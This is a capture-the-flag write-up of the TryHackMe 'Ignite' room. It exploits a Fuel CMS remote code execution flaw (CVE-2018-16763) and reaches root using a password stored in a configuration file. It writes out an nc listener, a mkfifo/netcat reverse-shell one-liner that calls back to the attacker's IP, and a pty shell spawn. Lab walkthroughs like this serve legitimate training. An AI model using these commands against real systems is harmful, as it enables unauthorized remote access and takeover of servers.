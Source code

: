 ```yaml
---
layout: post
permalink: /posts/thm/ignite-ctf
title: "THM write-up: Ignite CTF"
date: 2020-08-07 19:57
tags: tryhackme CTF recon privilege_escalate reverse_shell fuel_cms
description: "This time I going to do a write-up on ignite ctf from tryhackme. This room is written by DarkStar7471 and lollava."
---
```


![titlecard](/assets/images/THM/2020-08-07-ignite-ctf/1.png)

[Link: https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite)

Time for my intro: another day, another CTF challenge. This time I going to do a write-up on ignite CTF room from tryhackme. This room is written by DarkStar7471 and lollava. A great shout out for them. Like the ordinary tryhackme CTF room, enumerate, exploit and capture the flag. Lets' get it on.

## Task 1: Capture the flags

Like the tile said, capture both user and the root flags. Startup your nmap to do the port scanning. USe the following nmap command.

```
nmap -A -v <MACHINE IP>
```

![nmap](/assets/images/THM/2020-08-07-ignite-ctf/2.png)

It seems that we only have a single open port which is port 80 or HTTP. Scanning with -p- (full port) doesn't give us any additional port. Port 80 is the only port for this challenge. Let's check out what is inside this port.

![ignite cms](/assets/images/THM/2020-08-07-ignite-ctf/3.png)

We are greeted by Fuel CMS on port 80. 

![Admin IP](/assets/images/THM/2020-08-07-ignite-ctf/4.png)

A default password and admin login page for the CMS is revealed on the site. 

![Dashboard](/assets/images/THM/2020-08-07-ignite-ctf/5.png)

Oh yes, the credential works on the login page which gives us access as the admin of the site.  The bad news is we are not able to do anything on this dashboard. Almost all the stuff is empty. What else we can do? Finding the Fuel CMS v1.4 exploit on google?

![CVE](/assets/images/THM/2020-08-07-ignite-ctf/6.png)

Oops, guess we found something on the [internet](https://www.cvedetails.com/cve/CVE-2018-16763/). A further look on the CVE number on [exploit-db](https://www.exploit-db.com/exploits/47138) prompt us a python script.

![script](/assets/images/THM/2020-08-07-ignite-ctf/7.png)

I guess it worth a try. But before running the script, make sure you change some of the parameters as shown in the figure below. 

![parameter](/assets/images/THM/2020-08-07-ignite-ctf/8.png)

Please change the URL parameter according to the machine IP and remove the proxy value (red box) before running the script. We don't need the proxy as we are not using the burp suite, a simple shell is more than enough for this challenge. 

Run the python and you be prompt to input a command line.

![cmd](/assets/images/THM/2020-08-07-ignite-ctf/9.png)

Oh yes, we are now using the python script as a remote shell for the server. Let's move to Task 1-1.

### Task 1-1: User's flag

There are two ways to solve this task.

- Using the python script as a remote shell
- Reverse the shell using Netcat (Jeff Price approach)

For this task, I'm going to use the python script and Netcat for the next task. I will explain the con of using the python script as remote shell later on. 

First thing first, we have to check the content inside /home directory and list out all the files.

![home](/assets/images/THM/2020-08-07-ignite-ctf/10.png)

![flag](/assets/images/THM/2020-08-07-ignite-ctf/11.png)

We have a www-data user inside the home directory. Also, the flag of the user can be found inside the directory.

### Task 1-2: root's flag

It is time to root the machine. The only way to root the machine is via the shell. This is because we have only one open port on the machine. How are we going to escalate the privilege as root? Actually, it took me some time to figure out. The answer is on the Fuel CMS page.

![Fuel DB](/assets/images/THM/2020-08-07-ignite-ctf/13.png)

This particular paragraph tells something is stored inside the database.php. Let's check it out.

![DB](/assets/images/THM/2020-08-07-ignite-ctf/14.png)

Well, we just found the password for the root. How are we gonna use this credential? Let me tell you the cons of the python script remote shell. The shell will not able to display the error and we are unable to identify the problem. Also, the shell will not prompt for password input if you use su command. A smart move like pipeline such as **'echo mememe | su -c whoami'** will not solve the issues. I guess reverse shell using the Netcat is the only choice.

![reverse shell](/assets/images/THM/2020-08-07-ignite-ctf/15.png)

The figure above shows the reverse shell command using Netcat. Before running the command, make sure you have your listener on another terminal. Use the following command.

```
nc -lvnp 4444
```

After that, copy this command in the python script remote shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Tunnel IP> 4444 >/tmp/f
```

Make sure you use your [tunnel IP](https://tryhackme.com/access). After that, your Netcat will prompt a reverse shell of the server.

![reverse success](/assets/images/THM/2020-08-07-ignite-ctf/16.png)

Alright, we got the reverse shell. Time to make ourselves a superuser using su command.

![su problem](/assets/images/THM/2020-08-07-ignite-ctf/17.png)

Wait a sec, you can't run su command on the shell !! This is because /bin/sh of the server is turned off or disabled. We need to spawn a shell using the python. 

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

You are now allowed to enter the su command the password to root the machine.

![su](/assets/images/THM/2020-08-07-ignite-ctf/18.png)

Congratulation, you are now rooted in the machine. Let's find the final flag.

![flag](/assets/images/THM/2020-08-07-ignite-ctf/19.png)

Gotcha, the final flag is now captured.

## Conclusion

We have now ignited the fuel CMS machine (this is what the room called) and that's all for the wonderful CTF challenge. Hope you enjoy it and see you again :)